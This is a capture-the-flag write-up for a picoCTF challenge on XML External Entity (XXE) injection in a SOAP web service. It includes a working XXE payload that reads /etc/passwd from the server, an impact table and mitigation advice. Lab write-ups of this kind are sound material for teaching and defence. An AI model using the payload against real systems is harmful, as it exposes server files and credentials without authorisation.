 # 🧼 XXE Exploitation in SOAP Web Service (picoCTF)

**Author:** Geoffrey Njogu  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `XXE`, `SOAP`, `BurpSuite`, `CTF`, `Web Exploitation`

---

## 📘 Description

> The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

---

## 🚀 Challenge Deployment


---

## 🔥 Vulnerability: XML External Entity Injection (XXE)

The application accepts raw XML input with `Content-Type: application/xml`, and parses it insecurely. This allows an attacker to define external entities (`<!ENTITY>`) that point to sensitive files on the server.

---

## 💣 Exploit Payload

### 🧪 Proof of Concept (Read `/etc/passwd`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data>
  <ID>&xxe;</ID>
</data>
```

| Property        | Impact                                                       |
| --------------- | ------------------------------------------------------------ |
| Confidentiality | 🔴 Exposed sensitive files (`/etc/passwd`, API keys, config) |
| Integrity       | 🟡 Potential alteration if parser injects data into logic    |
| Availability    | 🔴 Possible DoS via Billion Laughs attack                    |


🛡️ Mitigation (Developer Notes)
-To prevent this vulnerability:
-🚫 Disable external entity expansion
-🚫 Disallow DOCTYPE declarations
-✅ Validate input using strict XML schema
-✅ Consider switching to JSON if XML is not necessary
